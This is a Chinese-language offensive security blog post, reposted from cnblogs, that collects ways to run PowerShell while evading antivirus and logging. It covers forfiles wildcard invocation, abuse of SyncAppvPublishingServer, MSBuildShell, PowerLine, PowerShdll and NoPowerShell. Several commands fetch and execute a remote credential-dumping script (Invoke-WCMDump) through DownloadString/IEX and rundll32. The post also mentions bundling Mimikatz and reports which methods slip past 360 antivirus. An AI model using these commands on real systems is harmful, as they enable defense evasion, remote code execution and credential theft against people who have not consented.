 原文地址 \[www.cnblogs.com\](https://www.cnblogs.com/-mo-/p/12692559.html)

### 0x01 简介

Windows PowerShell 是一种命令行外壳程序和脚本环境，使命令行用户和脚本编写者可以利用 .NET Framework 的强大功能。由于 powershell 的特性，使得它很受渗透测试爱好者的喜爱，当然也催生了像 ASMI 之类的防御手段，当然各类杀软也是把它纳入了查杀行列中，只要你调用 PS 就会查杀，今天列举一些可以绕过其检测规则的一些姿势，主要可以粗略分为两大类，首先是绕过 AV 的检测规则，其次是换一个方式执行类似 PowerShell 的操作

![](https://img2020.cnblogs.com/blog/1561366/202004/1561366-20200414083231553-1468059295.png)

### 0x02 绕过本地调用

#### 2.1 模糊搜索调用

```
forfiles /p %COMSPEC:~0,19% /s /c "@file -noe" /m po\*l.\*e
```

![](https://img2020.cnblogs.com/blog/1561366/202004/1561366-20200414084844354-1663760454.png)

#### 2.2 编译命令程序

用 c++ 的 system 函数库去调用 (待完善)：

```c
#include<stdio.h>
#include<stdlib.h>
int main(){
system("powershell");
return 0;
}
```

#### 2.3 SyncAppvPublishingServer

SyncAppvPublishingServer 是 win10 自带的服务，有 vbs 和 exe 两个版本，我们可以使用他们来做一些类似 PS 的操作

默认存放在 C:\\Windows\\System32 下面：

![](https://img2020.cnblogs.com/blog/1561366/202004/1561366-20200414095248859-1239492508.png)

```
#弹计算器
C:\\Windows\\System32\\SyncAppvPublishingServer.vbs "Break; Start-Process Calc.exe ”

#访问端口
C:\\Windows\\System32\\SyncAppvPublishingServer.vbs "Break; iwr http://192.168.1.149:443"

#远程下载并执行powershell
C:\\Windows\\System32\\SyncAppvPublishingServer.exe \\" Break; (New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/peewpw/Invoke-WCMDump/master/Invoke-WCMDump.ps1','$env:USERPROFILE/1.ps1'); Start-Process '$env:USERPROFILE/1.ps1' -WindowStyle Minimized;"

SyncAppvPublishingServer.exe "n;(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/peewpw/Invoke-WCMDump/master/Invoke-WCMDump.ps1') | IEX"



```

#### 2.4 调用 MSBuild

MSBuild 是. Net 框架中包含的工具，用于自动化创建软件产品的过程，包括编译源代码，打包，测试，部署和创建文档。Msbuild 依赖于. csproj 文件，该文件具有 XML 语法，包含了. NET 构建过程中的结果

github 上有此类项目：[https://github.com/Cn33liz/MSBuildShell.git](https://github.com/Cn33liz/MSBuildShell.git)

执行完之后会获得一个交互式的 PS：

```
C:\\Windows\\Microsoft.NET\\Framework\\v4.0.30319\\msbuild.exe C:\\Scripts\\MSBuildShell.csproj
C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\msbuild.exe C:\\Scripts\\MSBuildShell.csproj


```

![](https://img2020.cnblogs.com/blog/1561366/202004/1561366-20200414102510538-1854198848.png)

#### 2.5 调用 cscript

三好师傅：[http://www.mottoin.com/detail/1961.html](http://www.mottoin.com/detail/1961.html)

### 0x03 非 Powershell 执行

#### 3.1 PowerLine

PowerLine 是一款由 c# 编写的工具，支持本地命令行调用和远程调用，可以在不直接调用 PowerShell 的情况下调用 PowerShell 脚本

下载地址：[https://github.com/fullmetalcache/PowerLine](https://github.com/fullmetalcache/PowerLine)

首先拉取项目到本地，然后运行 build.bat 文件：

```
./build.bat


```

然后在 UserConf.xml 文件中填写你所需要调用的 powershell 脚本的地址，默认自带 powerup、powerview、Mimikatz 等，只要按照他给定的格式加入你的 ps 脚本地址即可：  
![](https://img2020.cnblogs.com/blog/1561366/202004/1561366-20200414104138444-1655777677.png)

加入完成以后，运行 PLBuilder.exe 进行构建，构建过程中，360 无提示。查看内置的脚本 PowerLine.exe -ShowScripts：

![](https://img2020.cnblogs.com/blog/1561366/202004/1561366-20200414104312252-1052750333.png)

#### 3.2 PowerShdll

这个工具主要使用 dll 去运行 powershell 而不需要去连接 powershell.exe , 所以具有一定的 bypassAV 能力，当然它也可以在这几个程序下运行 rundll32.exe, installutil.exe, regsvcs.exe, regasm.exe, regsvr32.exe 或者使用作者给出的单独的 exe 进行执行

下载地址：[https://github.com/p3nt4/PowerShdll](https://github.com/p3nt4/PowerShdll)

```
#exe版
PowerShdll -i   #进入到交互模式

#dll版  360可以查杀到
rundll32 PowerShdll.dll,main . { iwr -useb https://raw.githubusercontent.com/peewpw/Invoke-WCMDump/master/Invoke-WCMDump.ps1 } ^| iex;


```

#### 3.3 Nopowershell

NoPowerShell 是用 C＃实现的工具，它支持执行类似 PowerShell 的命令，同时对任何 PowerShell 日志记录机制都不可见。同时也提供了 CS 下的 cna 脚本。

下载地址：[https://github.com/bitsadmin/nopowershell](https://github.com/bitsadmin/nopowershell)

```
./NoPowerShell.exe(过360)

rundll32 NoPowerShell64.dll(被查杀)


```

这里要注意一点的是，cs 的 cna 脚本默认调用 scripts 下的文件，国内的 cs 大多为 script 目录，自行修改文件内的目录即可。

### 参考链接

[无 powershell 运行 powershell 方法总结](https://mp.weixin.qq.com/s?__biz=MjM5MTYxNjQxOA==&mid=2652852749&idx=1&sn=8dfd8ea7d745cca58be663a538ee4093&chksm=bd592ec08a2ea7d660db587f6f1dc9d531dd957b2a397065e393399334310724b5aaf93002c3&mpshare=1&scene=1&srcid=&sharer_sharetime=1575103078873&sharer_shareid=56e432b8d4e8d9494f05afd447beb50f&pass_ticket=m9r3c%2FmzdGu1FzhP89tOMO81nBdPEflt7YQXa38HylQ%3D#rd)  
[http://www.mottoin.com/detail/1961.html](http://www.mottoin.com/detail/1961.html)